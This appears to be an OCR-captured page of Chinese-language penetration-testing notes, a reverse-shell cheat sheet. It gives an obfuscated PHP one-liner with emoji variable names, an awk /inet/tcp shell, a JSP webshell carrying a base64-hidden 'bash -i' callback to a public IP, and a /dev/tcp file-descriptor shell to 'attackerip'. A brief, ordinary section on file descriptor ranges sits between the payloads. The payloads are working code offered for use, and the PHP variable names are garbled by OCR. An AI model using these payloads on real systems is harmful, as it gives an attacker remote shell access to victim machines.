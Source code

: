 php Emoji

```
php -r
'$ð•••="1";$ð•••="2";$ð•••="3";$ð•••="4";$ð•••="5";$ð•••="6";$ð•••="7";$ð•••="8";$ð•••="9";$ð•••="0";$ð•¤¢=" ";$ð•¤•="<";$ð•¤ =">";$ð••±="-";$ð••µ="&";$ð•¤©="i";$ð•¤•=".";$ð•¤¨="/";$ð•¥ °="a";$ð•••="b";$ð••¶="i";$ð•••="h";$ð•••="c";$ð•¤ £="d";$ð•••="e";$ð•••="f";$ð•••="k";$ð•••="n";$ð•••="o";$ð•••="p";$ð•¤•="s";$ð•••="x";$ð••• = $ð•••. $ð•¤•. $ð•••. $ð•••. $ð•••. $ð•••. $ð•••. $ð•••. $ð•••;$ð••• = "192.168.0.106";$ð••» = 9999;$ð••• = "sh". $ð•¤¢. $ð••±. $ð•¤©. $ð•¤¢. $ð•¤•. $ð••µ. $ð•••. $ð•¤¢. $ð•¤ . $ð••µ. $ð•••. $ð•¤¢. $ð•••. $ð•¤ . $ð••µ. $ð•••;$ð•¤£ = $ð•••($ð•••,$ð••»);$ð••½ = $ð•••. $ð•••. $ð•••. $ð•••;$ð••½($ð•••);'
```

awk

```
awk 'BEGIN {s = "/inet/tcp/0/192.168.0.106/9999"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```



### 反弹shell文件

jsp反弹shell脚本

```java
<%! Runtime.getRuntime().exec("bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEuMTE3LjkuNTUvODg4OCAwPiYx}|{base64,-d}|{bash,-i}");%>
```





### 文件描述符

**文件描述符的常见范围**

- **0 ~ 1023**：传统 Unix 设定的 **“常用文件描述符”**，很多系统默认限制（`ulimit -n`）为 1024。
- **1024 ~ 65535**：现代 Linux 系统通常允许 **更高数量**（由 `ulimit -n` 或 `/proc/sys/fs/nr_open` 控制）。
- **> 65535**：某些特殊场景可能允许 **百万级** FD（需调整内核参数）。

| FD      | 典型用途          | 说明                     |
| ------- | ----------------- | ------------------------ |
| **0**   | `stdin`           | 文件输入（如 `read`）    |
| **1**   | `stdout`          | 标准输出                 |
| **2**   | `stderr`          | 错误输出                 |
| **3~9** | Shell 脚本临时 FD | `exec 3>file`（手动分配) |

### 自定义FD分析

```
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```
